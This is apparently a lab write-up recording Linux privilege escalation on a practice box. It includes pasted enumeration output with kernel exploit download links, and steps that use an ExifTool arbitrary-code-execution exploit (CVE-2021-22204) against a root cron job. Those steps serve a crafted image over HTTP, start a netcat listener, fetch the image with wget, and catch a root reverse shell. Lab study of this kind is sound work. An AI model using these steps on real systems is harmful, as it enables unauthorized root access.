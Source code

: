 >    Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
>    ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
>    Comments: ip_tables kernel module must be loaded
> 
> [+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)
>    Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
> https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
>    Exposure: less probable
>    Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
>    Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
>    Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
> 
> [+] [CVE-2017-5618] setuid screen v4.5.0 LPE
>    Details: https://seclists.org/oss-sec/2017/q1/184
>    Exposure: less probable
>    Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
> Users with Console
> 	coaran:x:1000:1000::/home/coaran:/bin/bash
> 
> Some home ssh config file was found
> 	/usr/share/openssh/sshd_config                                                                                   
> 	Include /etc/ssh/sshd_config.d/*.conf
> 	ChallengeResponseAuthentication no
> 	UsePAM yes
> 	X11Forwarding yes
> 	PrintMotd no
> 	AcceptEnv LANG LC_*
> 	Subsystem       sftp    /usr/lib/openssh/sftp-server
> 
> Cron Jobs
> ![[Pasted image 20241002202522.png]]
- Identified `bash /opt/image-exif.sh` (aka exiftool) running constantly
- Multiple exploits available for `exiftool`
## Privilege Escalation vector
### Exploit - ExifTool 12.23 - Arbitrary Code Execution
- EDB-ID: 50911 CVE-2021-22204
- First attempt running exploit failed (missing dependencies)
![[Pasted image 20241003194919.png]]
- Checked exploit script, found dependencies, 
- Installed: `sudo apt install djvulibre-bin` & `sudo apt install exiftool`
- Re-ran exploit 49876.py & created `image.jpg`
![[Pasted image 20241003195231.png]]
- Served `image.jpg` on http webserver: `python3 -m http.server 80`
- Launched netcat listener: `nc -nvlp 4567`
- Uploaded `image.jpg` to target machine from shell on port 4444: 
  `wget http://192.168.45.198/image.jpg`
![[Pasted image 20241003200145.png]]
- Waited for reverse shell to port 4567, and established user is `root`
![[Pasted image 20241003200430.png]]
- Navigated to root directory and printed `proof.txt`
![[Pasted image 20241003200649.png]]
- Checked `/etc/passwd` for other users, found `coaran:x:1000:1000::/home/coaran:/bin/bash`
![[Pasted image 20241003201209.png]]
- Navigated to `coaran` home & found `local.txt`